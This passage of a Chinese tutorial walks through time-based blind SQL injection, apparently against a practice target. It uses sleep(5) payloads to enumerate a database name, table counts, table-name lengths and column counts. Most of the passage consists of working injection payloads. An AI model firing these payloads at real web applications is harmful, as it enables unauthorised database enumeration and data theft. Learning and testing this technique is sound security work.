 
说明数据库名长度为4个字符。

接着采用二分法猜解数据库名：


```
1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟

…

1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 没有延迟

1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 没有延迟
```


说明数据库名的第一个字符为小写字母d。

…

重复上述步骤，即可猜解出数据库名。

3.猜解数据库中的表名
首先猜解数据库中表的数量：


```
1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)# 没有延迟

1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)# 明显延迟
```


说明数据库中有两个表。

接着挨个猜解表名：


```
1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) # 明显延迟
```


说明第一个表名的长度为9个字符。

采用二分法即可猜解出表名。

4.猜解表中的字段名
首先猜解表中字段的数量：


```
1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=1,sleep(5),1)# 没有延迟

…

1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=8,sleep(5),1)# 明显延迟
```
